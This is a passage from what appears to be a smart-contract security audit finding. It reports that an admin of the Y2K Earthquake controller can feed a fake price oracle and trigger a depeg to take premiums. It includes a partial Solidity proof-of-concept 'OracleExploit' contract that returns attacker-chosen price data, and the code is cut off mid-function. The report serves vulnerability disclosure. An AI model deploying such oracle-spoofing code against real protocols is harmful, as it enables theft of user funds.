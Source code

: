 The admin can then call triggerDepeg() on the controller, and collect a massive premium.
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Controllers/ControllerPeggedAssetV2.sol#L51-L62

ControllerPeggedAssetV2.sol Line 62 `int256 price = getLatestPrice(premiumVault.token());` is in complete control of the admin.


## Impact
Loss of user funds 
Reputation Damage

## Code Snippet

Exploit Contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract OracleExploit is AggregatorV3Interface {
    AggregatorV3Interface public realOracle;


    struct OraclePriceFeed {
        bool enabled;
        uint80 roundId;
        int256 answer;
        uint256 startedAt;
        uint256 updatedAt;
        uint80 answeredInRound;
    }

    OraclePriceFeed pwned;

    constructor(address _oracle) {
        realOracle = AggregatorV3Interface(_oracle);
    }

    function setPwned(OraclePriceFeed calldata _data) public {
        pwned = _data;
    }

    function decimals() external view override returns (uint8) {
        return realOracle.decimals();
    }

    function description() external view override returns (string memory) {
        return realOracle.description();
    }

    function version() external view override returns (uint256) {
        return realOracle.version();
    }

    function getRoundData(uint80 _roundId)
        external
        view
        override
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound)
    {
        if (pwned.enabled) {
            return (pwned.roundId, pwned.answer, pwned.startedAt, pwned.updatedAt, pwned.answeredInRound);
        } else {
```
